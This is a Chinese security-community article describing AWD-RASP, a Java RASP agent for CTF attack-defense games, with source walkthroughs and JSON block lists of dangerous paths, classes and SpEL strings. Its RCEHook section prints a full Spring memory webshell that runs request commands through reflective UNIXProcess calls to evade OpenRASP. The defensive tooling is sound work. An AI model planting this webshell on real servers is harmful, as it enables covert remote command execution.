



# 基于RASP的通防工具：AWD-RASP-先知社区

> **来源**: https://xz.aliyun.com/news/18603  
> **文章ID**: 18603

---

# 项目简介

### 项目地址

<https://github.com/ez-lbz/awd-rasp>  
师傅们要是觉得对您有帮助可以点个star，感谢。

### 为什么会有这个项目

其实想做一个Java的AWD/AWDP通防已经很久了，无论是PHP还是PWN，现在都有了比较成型的通防工具（虽然主流比赛会对通防进行检测）。不同于PHP的发现漏洞点约等于知道怎么修复，Java在比赛中通常以挖掘反序列化链的形势出现，因此Hook的位置也比较明确，但是究竟怎么Hook是一大难题。并不是所有人都能迅速的判断出应该过滤哪些类，同时使用JarPatch等方式修改Jar的字节码本身也不是很方便。为了解决以上的问题，我制作了这个项目。

### 什么是RASP

RASP（Runtime Application Self-Protection）是一种侵入式的应用防御技术，尤其适用于Java环境。它通过直接嵌入到应用运行时中，在程序内部对关键安全sink点（如数据库访问、命令执行、反序列化处理等）进行实时监控和拦截，从而针对性阻断利用行为。由于能够感知应用的业务逻辑和运行上下文，RASP在防御时更加精准，显著降低了传统外部防护手段（如WAF）的误报率，同时能在漏洞尚未修复前提供有效的临时防护。

在awd和awdp比赛中，误报远比漏报严重，因此RASP技术成为了Java通防的必然选择。

相较于OpenRasp等现有的开源工具，本项目提供了一个更加轻量级的解决方案，移除了云端监控以及在AWD/AWDP中并不重要的许多hook类（如XSS），并允许通过JSON配置文件进行灵活的设置。

### 使用方式

目前针对Java8和Java17下的环境进行过测试，理论上在两者之间的版本都是可行的。手动编译时使用命令：

```
mvn clean install
mvn clean package
```

提供了Java8，Java11，Java17三个版本的release可以直接使用。  
使用示例：

```
java -javaagent:rasp-main.jar -Xbootclasspath/a:rasp-plugins.jar -jar shiro-login-demo-1.0.0.jar
```

注意要将`rasp-main.jar`，`rasp-plugins.jar`，`hook.json`放到同一个目录下。

# 源码分析

### rasp-main

`rasp-main`模块是整个项目的入口点，这个模块很大程度上参考了TinyRASP的实现。首先来看Agent类：

```
public class MyAgent {
    public static void premain(String args, Instrumentation ins) throws Exception {
        System.out.println("
" +
                "
" +
                "      __          _______         _____            _____ _____  
" +
                "     /\ \        / |  __ \       |  __ \    /\    / ____|  __ \ 
" +
                "    /  \ \  /\  / /| |  | |______| |__) |  /  \  | (___ | |__) |
" +
                "   / /\ \ \/  \/ / | |  | |______|  _  /  / /\ \  \___ \|  ___/ 
" +
                "  / ____ \  /\  /  | |__| |      | | \ \ / ____ \ ____) | |     
" +
                " /_/    \_\/  \/   |_____/       |_|  \_/_/    \_|_____/|_|     
" +
                "                                                                
" +
                "                                                                
" +
                "
");

        List<Object> hooks = RaspClassLoader.getRaspClassLoader().getAllHookClasses();

        for (Object hook : hooks) {
            ins.addTransformer((ClassFileTransformer) hook, true);
        }


        Class[] allLoadedClasses = ins.getAllLoadedClasses();
        for (Class aClass : allLoadedClasses) {
            if (ins.isModifiableClass(aClass) && !aClass.getName().startsWith("java.lang.invoke.LambdaForm")){
                ins.retransformClasses(new Class[]{aClass});
            }
        }
        System.out.println("======Premain Finish=======");
    }
}
```

在OpenRasp中是实现了`premain`和`agentmain`两个方法，允许在项目运行时通过指定PID来动态的插桩。而我们显然是没有这个需求，因为通常在比赛中去hook java的时候都是使用类似如下的脚本去killAndStart项目的：

```
#!/bin/sh

cp /tmp/app.jar /app/app.jar
ps -ef | grep java | grep -v grep | awk '{print $2}' | xargs kill -9 
cd /app && nohup java -jar app.jar  >> /opt/app.log 2>&1 &
```

看一下`RaspClassLoader.getRaspClassLoader().getAllHookClasses()`的逻辑：

```
public class RaspClassLoader extends URLClassLoader {
    private static File jarFile;
    private static volatile RaspClassLoader raspClassLoader;
    public RaspClassLoader(URL[] urls) {
        super(urls);
    }

    public static RaspClassLoader getRaspClassLoader() throws Exception {
        if (raspClassLoader == null) {
            synchronized (RaspClassLoader.class) {
                if (raspClassLoader == null) {
                    raspClassLoader = new RaspClassLoader(new URL[0]);
                    ProtectionDomain protectionDomain = RaspClassLoader.class.getProtectionDomain();
                    CodeSource codeSource = protectionDomain.getCodeSource();
                    URL premainJarUrl = codeSource.getLocation();
                    String premainJarPath = String.valueOf(Paths.get(premainJarUrl.toURI()).getParent());
                    File jarUrl = new File( premainJarPath + "/rasp-plugins.jar");
                    raspClassLoader.loadJar(jarUrl);
                }
            }
        }
        return raspClassLoader;
    }


    public void loadJar(File jarFile) throws Exception {
        if (jarFile.exists()) {
            this.jarFile = jarFile;
            addURL(jarFile.toURI().toURL());
        } else {
            throw new RuntimeException("JAR file not found: " + jarFile.getAbsolutePath());
        }
    }

    public List<Object> getAllHookClasses() throws Exception {
        List<Object> result = new ArrayList<>();
        JarFile jar = new JarFile(jarFile);
        Enumeration<JarEntry> entries = jar.entries();

        while (entries.hasMoreElements()) {
            JarEntry entry = entries.nextElement();
            String name = entry.getName();
            if (name.endsWith(".class") && name.startsWith("com/rasp/hooks")) {
                String className = name.replace("/", ".").replace(".class", "");
                Class<?> loadedClass = loadClass(className);
                Object instance = loadedClass.newInstance();

                System.out.println("Loaded class: " + className);
                result.add(instance);
            }
        }

        jar.close();
        return result;
    }

}
```

为了方便，直接让`RaspClassLoader`继承了`URLClassLoader`，这样就可以直接通过`getProtectionDomain`方式获取Jar路径（参考OpenRasp中`ModuleLoader`类的static块，他那种写法是不敢直接`getProtectionDomain`的）。  
可以看出，`RaspClassLoader.getRaspClassLoader().getAllHookClasses()`实质是在获取并加载所有的`rasp-plugins`中的类。  
接下来的插桩部分分为了两步：  
首先是对所有没加载的类去进行插桩，他们只需要预先`addTransformer`即可。

```
for (Object hook : hooks) {
            ins.addTransformer((ClassFileTransformer) hook, true);
        }
```

然后是对所有已经加载过的类进行插桩并重新加载（事实上，`FileInputStream`等都会预先加载）。

```
        Class[] allLoadedClasses = ins.getAllLoadedClasses();
        for (Class aClass : allLoadedClasses) {
            if (ins.isModifiableClass(aClass) && !aClass.getName().startsWith("java.lang.invoke.LambdaForm")){
                ins.retransformClasses(new Class[]{aClass});
            }
        }
```

`rasp-main`模块到此结束了，接下来看`rasp-plugins`的实现。

### rasp-plugins

在这一部分中，我一共编写了6个hook类，分别对文件读取、JNDI注入、命令执行、反序列化、SpEL表达式执行、sql注入进行了防御，OpenRasp中还有大量的其他的防御，比如文件删除，xss等等，但是这些显然不在我们业务范围内。  
在每个类中都在static块中通过`gson`去读取Json文件配置，并对静态变量进行初始化，从而实现`transform`中的逻辑自定义。通过检测关键类的sink点，用`Javassist`去修改字节码，从而在每个方法执行之前调用check函数，实现黑白名单过滤。

##### FileHook

在`FileHook`中对`java.io.FileInputStream`进行了hook，在构造方法前插入检测，对路径穿越字符串，以及通过json读取的路径进行检测。Json示例：

```
"FileHook": {
    "doFileHook": true,
    "dangerPaths": [
      "/etc/passwd",
      "/root/",
      "C:\Users\86138\Desktop\coverage.json"
    ]
  }
```

其中，check方法还对flag字段进行了检测，不允许读取含有flag的路径。

```
if (realpath.contains("flag")) {
            return true;
        }
```

##### JNDIHook

JNDI的调用本质上都是`javax.naming.InitialContext.lookup`，因此我在这个类的入口处检测协议是不是rmi、ldap、ldaps即可。示例Json：

```
"JNDIHook": {
    "doJNDIHook": true
  }
```

##### RCEHook

Java中的命令执行本质都是调用的`ProcessImpl`和`UnixProcess`的API，可以参考这篇文章：<https://www.javasec.org/javase/CommandExecution/，因此我们也就是要对他们进行hook。>  
首先来看`ProcessImpl.start`，这是在windows下会最终调用到的API。

```
static Process start(String cmdarray[],
                         java.util.Map<String,String> environment,
                         String dir,
                         ProcessBuilder.Redirect[] redirects,
                         boolean redirectErrorStream)
```

这个参数列表其实是好理解的，他的第一个参数就是命令的列表，我们将其通过空格拼接即可：

```
String code = ""
                        + "{"
                        + "System.out.println("In the RCEHook " + java.util.Arrays.toString($1) + Thread.currentThread().getContextClassLoader());"
                        + "String cmd = String.join(" ", $1);"
                        + "Class raspClassLoaderClass = Class.forName("com.rasp.myLoader.RaspClassLoader", true, Thread.currentThread().getContextClassLoader());"
                        + "java.lang.reflect.Method getRaspClassLoader = raspClassLoaderClass.getMethod("getRaspClassLoader", new Class[0]);"
                        + "ClassLoader raspClassLoaderInstance = (ClassLoader) getRaspClassLoader.invoke(null, new Object[0]);"
                        + "Class hookClass = Class.forName("com.rasp.hooks.RceHook", true, raspClassLoaderInstance);"
                        + "java.lang.reflect.Method checkCmd = hookClass.getDeclaredMethod("checkCmd", new Class[]{String.class});"
                        + "checkCmd.invoke(hookClass.newInstance(), new Object[]{cmd});" 
                        + "}";
```

其中的`$1`表示的是第一个参数。  
接下来看`UnixProcess`，这是一个在linux下才能看到的类，他是最终通过的`forkAndExec`来执行系统命令。

```
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
```

其中第三个参数`prog`表示的可执行文件名，末尾用`\0`表示，第四个参数`argBlock`表示的参数列表，参数之间通过`\0`分割。然而有一个很大的问题，就是`forkAndExec`是一个native方法，他是通过调用的JNI去实现的功能，因此无法通过`Javassist`修改（根本就没有字节码）。  
这里OpenRasp是如何处理的呢，他是直接去hook的`UnixProcess`的构造方法，但是这也就留下了一个问题，攻击者可以通过反射调用`forkAndExec`，从而bypass掉构造方法去执行命令，这是OpenRasp设计的一大缺陷，但也是无法避免的，例如你构建这样的内存马就可以bypass掉OpenRasp执行命令。

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class InjectToController extends AbstractTranslet {

    public InjectToController() {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Method method2 = InjectToController.class.getMethod("test");
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();

            Method getMappingForMethod = mappingHandlerMapping.getClass().getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
            getMappingForMethod.setAccessible(true);
            RequestMappingInfo info = (RequestMappingInfo) getMappingForMethod.invoke(mappingHandlerMapping, method2, InjectToController.class);

            InjectToController springControllerMemShell = new InjectToController("aaa");
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);
        } catch (Exception e) {

        }
    }

    public InjectToController(String aaa) {
    }

    @RequestMapping("/shell")
    public void test() throws IOException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        String[] cmd = request.getParameterValues("cmd");
        if (cmd != null) {
            try {
                PrintWriter writer = response.getWriter();
                String o = "";
                InputStream in = start(cmd);
                String result = inputStreamToString(in, "UTF-8");
                writer.write(result);
                writer.flush();
                writer.close();
            } catch (Exception var9) {
            }
        }
    }
    private static byte[] toCString(String var0) {
        if (var0 == null) {
            return null;
        } else {
            byte[] var1 = var0.getBytes();
            byte[] var2 = new byte[var1.length + 1];
            System.arraycopy(var1, 0, var2, 0, var1.length);
            var2[var2.length - 1] = 0;
            return var2;
        }
    }
    public InputStream start(String[] strs) throws Exception {
        String unixClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115});
        String processClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108});
        Class clazz = null;
        try {
            clazz = Class.forName(unixClass);
        } catch (ClassNotFoundException var30) {
            clazz = Class.forName(processClass);
        }
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        assert strs != null && strs.length > 0;

        byte[][] args = new byte[strs.length - 1][];
        int size = args.length;

        for(int i = 0; i < args.length; ++i) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int i = 0;
        byte[][] var10 = args;
        int var11 = args.length;

        for(int var12 = 0; var12 < var11; ++var12) {
            byte[] arg = var10[var12];
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};
        FileInputStream f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;
        try {
            if (f0 != null) {
                ((FileInputStream)f0).close();
            }
        } finally {
            try {
                if (f1 != null) {
                    ((FileOutputStream)f1).close();
                }
            } finally {
                if (f2 != null) {
                    ((FileOutputStream)f2).close();
                }
            }
        }
        Object object = constructor.newInstance(this.toCString(strs[0]), argBlock, args.length, null, envc[0], null, std_fds, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        return (InputStream)inMethod.invoke(object);
    }
    public String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int a = 0;
            byte[] b = new byte[1024];
            while((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }
            String var6 = new String(out.toByteArray());
            return var6;
        } catch (IOException var10) {
            throw var10;
        } finally {
            if (in != null) {
                in.close();
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```

对于这个问题，我们采用的办法是不解决（气乐了），因为预判性hook不符合AWD/AWDP的修复策略，一般的赛方/对手也不会特意去构造这样的payload去对几乎不可能存在的WAF进行试探（因为目前没有在AWD/AWDP上RASP的）。  
可以自定义的修改Json，去设置命令执行的白名单：

```
"RCEHook": {  
  "doRCEHook": true,  
  "safeCommands": [  
    "ping 127.0.0.1"  
  ]  
}
```

为什么要设置白名单？防止有傻逼出题人在服务中去执行系统命令，这种情况下你只需要把他的命令放到白名单中即可。由于代码中使用的是存在性检测，一旦白名单中的字段存在就会放行，那么如果在互联网中使用可能会受到一些拼接性的绕过，但是在攻防赛事中，还是之前说的非预判性hook，你只需要防住原本的漏洞即可，引入了一些奇怪的绕过方式并不会增添风险。

##### SerialHook

这里主要对原生反序列化`java.io.ObjectInputStream.resolveClass`和`com.caucho.hessian.io.SerializerFactory.getDeserializer`进行了防御，通过像黑名单中添加恶意的类来防护。考虑到很多时候是出题人（或是框架）重写了一个子类继承`java.io.ObjectInputStream`，因此防御的类也允许通过配置文件注入（必须是`java.io.ObjectInputStream`）子类。比如说，一个防御shiro反序列化的Json可以这样写：

```
"SerialHook": {
    "doSerialHook": true,
    "serialClassName": "org/apache/shiro/io/ClassResolvingObjectInputStream",
    "dangerClasses": [
      "org.apache.commons.beanutils.BeanComparator"
    ]
  }
```

尽量不要屏蔽`java.util`下的类，如优先队列。

##### SpELHook

这里其实没啥说的，针对`org.springframework.expression.common.TemplateAwareExpressionParser.parseExpression`进行防御即可。防御的SpEL列表也可以从配置文件读入，匹配的规则还是包含性的匹配：

```
public static void checkSpEL(String expression) throws Exception {
        for (String item : spelBlackList) {
            if (expression.contains(item)) {
                throw new SecurityException("illegal expression" + expression);
            }
        }
    }
```

反正你规则多准备点，肯定不会错。一个示例性的Json，包含了所有我见过的SpEL：

```
"SpELHook": {  
  "doSpELHook": true,  
  "dangerSpELs": [  
    "java.lang.Runtime",  
    "java.lang.ProcessBuilder",  
    "javax.script.ScriptEngineManager",  
    "java.net.URLClassLoader",  
    "java.lang.ClassLoader",  
    "org.springframework.expression.Expression",  
    "org.thymeleaf.context.AbstractEngineContext",  
    "com.sun.org.apache.bcel.internal.util.JavaWrapper",  
    "java.lang.System",  
    "org.springframework.cglib.core.ReflectUtils",  
    "java.io.File",  
    "javax.management.remote.rmi.RMIConnector",  
    "java.io.FileInputStream"  
  ]  
}
```

##### SqlHook

对`com.mysql.jdbc.StatementImpl.executeQuery`和`com.mysql.cj.jdbc.ClientPreparedStatement`的构造方法进行hook，规则是直接调用的Druid的规则`com.alibaba.druid.wall.WallUtils`。为什么都`PreparedStatement`了还要去防御？因为我真的在代码审计中遇到过傻将参数先拼接后传传给函数的。这个类其实很大程度是直接抄的TinyRASP，我没去详细研究。事实上，Java题的flag基本不会存在于数据库中，SQL注入通常是要配合JDBC反序列化来进一步利用。  
Json示例：

```
"SqlHook": {
    "doSqlHook": true
  }
```

# 使用演示

以shiro反序列化为例，首先启动一个服务来验证他是有危害的：  
  
  
接下来配置AWD-RASP：

```
{
  "FileHook": {
    "doFileHook": true,
    "dangerPaths": [
    ]
  },
  "JNDIHook": {
    "doJNDIHook": true
  },
  "RCEHook": {
    "doRCEHook": true,
    "safeCommands": [
      "whoami"
    ]
  },
  "SerialHook": {
    "doSerialHook": true,
    "serialClassName": "org/apache/shiro/io/ClassResolvingObjectInputStream",
    "dangerClasses": [
      "org.apache.commons.beanutils.BeanComparator"
    ]
  },
  "SpELHook": {
    "doSpELHook": true,
    "dangerSpELs": [
      "java.lang.Runtime",
      "java.lang.ProcessBuilder",
      "javax.script.ScriptEngineManager",
      "java.net.URLClassLoader",
      "java.lang.ClassLoader",
      "org.springframework.expression.Expression",
      "org.thymeleaf.context.AbstractEngineContext",
      "com.sun.org.apache.bcel.internal.util.JavaWrapper",
      "java.lang.System",
      "org.springframework.cglib.core.ReflectUtils",
      "java.io.File",
      "javax.management.remote.rmi.RMIConnector",
      "java.io.FileInputStream"
    ]
  },
  "SqlHook": {
    "doSqlHook": false
  }
}
```

启动服务：

```
java -javaagent:rasp-main.jar -Xbootclasspath/a:rasp-plugins.jar -jar shiro-login-demo-1.0.0.jar
```

  
此时我们发现，虽然能检测秘钥，但是检测不到利用链，查看终端：

```
Caused by: java.lang.SecurityException: Illegal Deserialization Class: org.apache.commons.beanutils.BeanComparator
        at com.rasp.hooks.SerialHook.checkName(SerialHook.java:196) ~[na:na]
        ... 64 common frames omitted
```

发现是RASP匹配到了非法的类`org.apache.commons.beanutils.BeanComparator`。  
思考题：这里应该如何bypass来读取环境变量呢（服务存在于Windows）。  
其余几个类在Java17下进行了测试，也没发现什么问题。

# 总结

本项目目前还处于测试状态，并且没有经历过实战的检验（预计今年八月底能检验一下），因此师傅们慎用，尤其是AWD时慎用（AWDP修死了问题不大）。  
本项目采用WTFPL开源协议，即Do What The Fuck You Want To Public License，欢迎各位师傅提建议，或是直接拿走二开。  
后续工作以bug测试为主，没有添加功能的预期，或许会做更多的迁移性测试。

希望路过的师傅给项目点个Star，这将成为我继续前进的动力。
